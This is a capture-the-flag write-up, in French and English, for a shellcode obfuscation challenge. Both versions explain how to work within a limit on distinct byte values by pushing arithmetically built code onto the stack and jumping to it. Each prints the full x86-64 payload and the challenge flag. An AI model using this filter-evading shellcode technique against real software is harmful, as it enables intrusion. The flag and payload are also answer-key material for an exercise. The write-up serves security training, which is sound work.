 # Shellcode Obfuscation 4
## Write-up
### Solution (Français)
Deux possibilitées de restrictions nous sont imposés.

La première offre la possibilité d'avoir un shellcode un peu plus long, mais qui demande 15 bytes distincts maximum.
La deuxième offre la possibilité d'avoir un shellcode plus court, mais qui demande 20 bytes distincts maximum.

Une solution possible est d'utiliser des opérations mathématique et sur les bytes pour push toute les bytes sur le stack avant de jump sur le stack et d'executer le code. Cela permet d'avoir un code assez long mais en utilisant relativement peu de bytes. Un example est disponnible dans le fichier create_bytecode.py

Payload: `\x48\x31\xc9\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x08\x51\x48\x31\xc9\x48\xc1\xe1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x06\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\xc1\xe1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x08\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x06\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\x83\xc1\x04\x48\x83\xc1\x01\x51\x48\x31\xc9\x48\xc1\xe1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x06\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x02\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x02\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x06\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x06\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x51\x48\x31\xc9\x48\x83\xc1\x06\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x06\x48\xc1\xe1\x04\x48\x83\xc1\x08\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x06\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x08\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x06\x48\xc1\xe1\x04\x48\x83\xc1\x06\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x51\x48\x31\xc9\xff\xe4`

Une autre solution serait d'avoir un stager ecrit en suivant nos restriction de bytes afin de décoder un payload.

Flag: `flag-R6YA2C3DZ8V7T9JPX9F3K7ZQ2JPXLMN4`
### Solution (English)
Two restrictions are imposed on us.

The first offers the possibility of having a slightly longer shellcode, but which requires a maximum of 15 distinct bytes.
The second offers the possibility of having a shorter shellcode, but which requires a maximum of 20 distinct bytes.

One possible solution is to use mathematical operations and on the bytes to push all the bytes on the stack before jumping on the stack and executing the code. This allows you to have a fairly long code but using relatively few bytes. An example is available in the file create_bytecode.py

Payload: `\x48\x31\xc9\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x08\x51\x48\x31\xc9\x48\xc1\xe1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x06\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\xc1\xe1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x08\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x06\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\x83\xc1\x04\x48\x83\xc1\x01\x51\x48\x31\xc9\x48\xc1\xe1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x06\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x02\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x02\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x06\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x06\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x51\x48\x31\xc9\x48\x83\xc1\x06\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x06\x48\xc1\xe1\x04\x48\x83\xc1\x08\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x06\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x08\x48\x83\xc1\x01\x48\xc1\xe1\x04\x48\x83\xc1\x04\x48\xc1\xe1\x04\x48\x83\xc1\x06\x48\xc1\xe1\x04\x48\x83\xc1\x06\x48\xc1\xe1\x04\x48\x83\xc1\x0a\x51\x48\x31\xc9\xff\xe4`

Another solution would be to have a stager written following our byte restrictions in order to decode a payload.

Flag: `flag-R6YA2C3DZ8V7T9JPX9F3K7ZQ2JPXLMN4`